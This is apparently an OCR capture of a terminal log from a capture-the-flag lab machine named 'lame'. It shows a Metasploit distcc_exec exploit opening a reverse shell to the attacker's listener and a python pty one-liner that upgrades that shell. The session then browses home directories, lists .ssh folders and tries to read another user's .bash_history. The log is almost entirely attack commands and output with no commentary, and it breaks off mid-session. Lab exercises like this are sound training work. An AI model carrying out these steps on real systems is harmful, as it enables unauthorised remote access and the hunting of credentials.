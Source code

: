 
msf5 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:42076) at 2019-02-27 21:03:43 -0500


shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
whoami
whoami
daemon
sh-3.2$

sh-3.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ ls
ls
5144.jsvc_up
daemon@lame:/tmp$ cd ..
cd ..
daemon@lame:/$ ls
ls
bin    dev   initrd	 lost+found  nohup.out	root  sys  var
boot   etc   initrd.img  media	     opt	sbin  tmp  vmlinuz
cdrom  home  lib	 mnt	     proc	srv   usr
daemon@lame:/$ cd /home
cd /home
daemon@lame:/home$ ls
ls
ftp  makis  service  user
daemon@lame:/home$ cd user
cd user
daemon@lame:/home/user$ ls
ls
daemon@lame:/home/user$ ls -al
ls -al
total 28
drwxr-xr-x 3 1001 1001 4096 May  7  2010 .
drwxr-xr-x 6 root root 4096 Mar 14  2017 ..
-rw------- 1 1001 1001  165 May  7  2010 .bash_history
-rw-r--r-- 1 1001 1001  220 Mar 31  2010 .bash_logout
-rw-r--r-- 1 1001 1001 2928 Mar 31  2010 .bashrc
-rw-r--r-- 1 1001 1001  586 Mar 31  2010 .profile
drwx------ 2 1001 1001 4096 May  7  2010 .ssh
daemon@lame:/home/user$ cat .bash_history
cat .bash_history
cat: .bash_history: Permission denied
daemon@lame:/home/user$ cd ..
cd ..
daemon@lame:/home$ ls
ls
ftp  makis  service  user
daemon@lame:/home$ cd ftp
cd ftp
daemon@lame:/home/ftp$ ls
ls
daemon@lame:/home/ftp$ ls -Al
ls -Al
total 0
daemon@lame:/home/ftp$ cd ..
cd ..
daemon@lame:/home$ cd service